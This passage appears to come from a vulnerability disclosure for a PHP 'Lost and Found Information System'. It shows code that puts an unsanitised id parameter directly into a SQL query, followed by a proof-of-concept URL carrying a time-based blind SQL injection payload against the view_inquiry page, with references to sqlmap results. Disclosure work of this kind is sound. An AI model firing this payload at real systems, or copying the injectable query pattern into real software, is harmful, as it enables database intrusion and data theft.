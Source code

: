 ![blockchain](https://github.com/AnotherN/cvv/blob/main/imgs/3.admin-categories-view_category.php.jpg "Lost and Found Information System")

## Related Codes admin\categories\view_category.php

```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT * from `category_list` where id = '{$_GET['id']}' ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
    }else{
		echo '<script>alert("Category ID is not valid."); location.replace("./?page=categories")</script>';
	}
}else{
	echo '<script>alert("Category ID is Required."); location.replace("./?page=categories")</script>';
}
?>
```

# **4.SQL injection vulnerability in admin\inquiries\view_inquiry.php**
---
## Sample request POC #4

```
http://php-lfis.com/?page=admin/inquiries/view_inquiry&id=1%27%20AND%20(SELECT%203421%20FROM%20(SELECT(SLEEP(5)))gwaX)%20AND%20%27YVdm%27=%27YVdm
```
## Sqlmap running results #4

![blockchain](https://github.com/AnotherN/cvv/blob/main/imgs/4.admin-inquiries-view_inquiry.php.jpg "Lost and Found Information System")
